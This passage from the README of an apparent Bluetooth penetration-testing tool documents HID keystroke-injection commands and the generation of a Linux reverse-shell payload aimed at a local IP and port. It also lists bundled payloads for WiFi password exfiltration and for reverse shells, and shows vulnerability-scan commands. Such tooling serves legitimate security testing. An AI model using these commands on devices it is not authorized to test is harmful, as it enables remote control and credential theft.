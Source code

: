 Commands in interactive mode:
- `type <text>` - Type text
- `key <key>` - Press a key
- `combo CTRL+C` - Key combination
- `payload <file>` - Execute payload
- `disconnect` - End session

### Generate Custom Payloads

Create reverse shell payload:

```bash
sudo python3 blue-sec.py generate-payload \
  --name "My Shell" \
  --type reverse_shell \
  --os linux \
  --ip 192.168.1.100 \
  --port 4444 \
  --output my_payload.json
```

Generate info gathering payload:

```bash
sudo python3 blue-sec.py generate-payload \
  --name "System Info" \
  --type info_gather \
  --os windows \
  --output sysinfo.json
```

### Available Payloads

Pre-built payloads in `data/payloads/hid/`:
- `test_keyboard.json` - Keyboard functionality test
- `rickroll_test.json` - Harmless demonstration
- `info_gather_windows.json` - System information gathering
- `wifi_exfil_windows.json` - WiFi password extraction
- `reverse_shell_linux.json` - Linux reverse shell
- `reverse_shell_windows.json` - Windows reverse shell

**See [HID_ATTACKS.md](HID_ATTACKS.md) for comprehensive HID attack documentation.**

---

## Vulnerability Scanning

Scan a device for known vulnerabilities:

```bash
sudo python3 blue-sec.py vuln-scan AA:BB:CC:DD:EE:FF
```

Generate HTML report:

```bash
sudo python3 blue-sec.py vuln-scan AA:BB:CC:DD:EE:FF --format html
```
